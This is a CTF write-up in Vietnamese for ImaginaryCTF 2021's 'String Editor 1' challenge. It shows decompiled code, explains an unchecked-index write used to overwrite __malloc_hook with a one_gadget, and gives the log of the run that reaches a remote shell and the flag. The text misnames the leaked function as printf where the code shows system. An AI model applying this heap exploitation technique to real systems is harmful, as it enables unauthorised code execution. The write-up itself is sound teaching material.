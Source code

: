 <h1>Writeup imaginaryctf 2021</h1>
<h1>Author: dV</h1>
<h2>Challenge Name: String Editor 1</h2>
<h3>Phân tích file</h3>
   <h4>Các cơ chế 
  
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled)
    Ta thấy bài này Full RELRO nên không thể đè GOT.
<h3>Reversing file</h3>
  <h4>
    
    main
    {
      char *v3; // rax
      char v4; // [rsp+7h] [rbp-19h] BYREF
      __int64 v5; // [rsp+8h] [rbp-18h] BYREF
      void *ptr; // [rsp+10h] [rbp-10h]
      unsigned __int64 v7; // [rsp+18h] [rbp-8h]

      v7 = __readfsqword(0x28u);
      ptr = malloc(0x10uLL);
      setvbuf(_bss_start, 0LL, 2, 0LL);
      setvbuf(stdin, 0LL, 2, 0LL);
      v3 = (char *)ptr;
      *(_QWORD *)ptr = 0x2A2A2A2A2A2A2A2ALL;
      strcpy(v3 + 8, "********");
      puts(s);
      puts("Today, you will have the AMAZING opportunity to edit a string!");
      sleep(1u);
      printf("But first, a word from our sponsors: %p\n\n", &system);
      while ( 1 )
      {
        printf(
          "The amazing, cool, epic, astounding, astonishing, stunning, breathtaking, supercalifragilisticexpialidocious string is:\n%s\n",
          (const char *)ptr);
        puts("What character would you like to edit? (enter in 15 to get a fresh pallette)");
        __isoc99_scanf("%ld%*c", &v5);
        if ( v5 == 15 )
        {
          free(ptr);
          ptr = malloc(0x10uLL);
          strcpy((char *)ptr, "****************");
        }
        puts("What character should be in that index?");
        __isoc99_scanf("%c%*c", &v4);
        printf("DEBUG: %p\n", (char *)ptr + v5);
        *((_BYTE *)ptr + v5) = v4;
        puts("Done.");
      }
    }
    
Bài này cho ta sẵn địa chỉ hàm printf nên không cần leak, từ địa chỉ đó ta tính được libc_base và one_gadget. Bài này cho ta nhập index để edit nhưng không kiểm tra index ta nhập có hợp lệ hay không nên ta sẽ lợi dụng điều này để thay đổi __malloc_hook thành one_gadget rồi sau đó nhập index 15 để free và malloc lại lúc đó ta sẽ có shell.
Ta để ý: addr_edit = addr_data_of_heap + addr_input.
    
Để ta edit chính xác địa chỉ của malloc_hook ta tính như sau:
    
addr_input = addr_edit( addr_malloc_hook) - addr_data_of_heap
    
Để tìm được addr_data_of_heap ta chỉ cần nhập index = 0 và leak được. Vậy là đủ điều kiện để get shell.
    <h4>
      
      [+] Opening connection to chal.imaginaryctf.org on port 42004: Done
      [*] '/mnt/c/Users/ADMIN/Desktop/ctf/imageCTF/String Editor 1/string_editor_1'
          Arch:     amd64-64-little
          RELRO:    Full RELRO
          Stack:    No canary found
          NX:       NX enabled
          PIE:      PIE enabled
      [*] '/mnt/c/Users/ADMIN/Desktop/ctf/imageCTF/String Editor 1/libc.so.6'
          Arch:     amd64-64-little
          RELRO:    Partial RELRO
          Stack:    Canary found
          NX:       NX enabled
          PIE:      PIE enabled
      System:  0x7f5599616410
      Base:  0x7f55995c1000
      __malloc_hook:  0x7f55997acb70
      One:  0x7f55996a7c81
      Heap:  0x561d046602a0
      [*] Switching to interactive mode
      DEBUG: 0x7f55997acb77
      Done.
      The amazing, cool, epic, astounding, astonishing, stunning, breathtaking, supercalifragilisticexpialidocious string is:
      a***************
      What character would you like to edit? (enter in 15 to get a fresh pallette)
      $ cat flag.txt
      ictf{alw4ys_ch3ck_y0ur_1nd1c3s!_4e42c9f2}
      $
